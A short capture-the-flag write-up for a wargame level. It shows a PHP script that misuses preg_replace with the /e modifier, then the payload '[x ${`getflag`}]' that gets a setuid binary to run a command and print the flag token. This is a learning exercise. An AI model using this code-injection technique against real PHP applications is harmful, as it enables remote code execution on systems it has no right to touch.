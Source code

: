 ## level06

home dir has 2 files, an exec and a php file.
I use https://beautifytools.com/php-beautifier.php to beautify the php file because it is unreadable

	#!/usr/bin/php
	<?php
	function y($m)
	{
		$m = preg_replace("/\./", " x ", $m);
		$m = preg_replace("/@/", " y", $m);
		return $m;
	}
	function x($y, $z)
	{
		$a = file_get_contents($y);
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
		$a = preg_replace("/\[/", "(", $a);
		$a = preg_replace("/\]/", ")", $a);
		return $a;
	}
	$r = x($argv[1], $argv[2]);
	print $r;
	?>

some search about preg_replace in php showed there are many vulnerabilities in php built in handling of regex. http://www.madirish.net/402, 

/e is meant for execution and the code inside is replaced by the second string where y is the variable given to the function. I replace the function in $y with a call to getflag.

	echo '[x ${`getflag`}]' > /tmp/getflag
	./level06 /tmp/getflag

outputs:
> PHP Notice:  Undefined variable: Check flag.Here is your token : `wiok45aaoguiboiki2tuin6ub`
 in /home/user/level06/level06.php(4) : regexp code on line 1
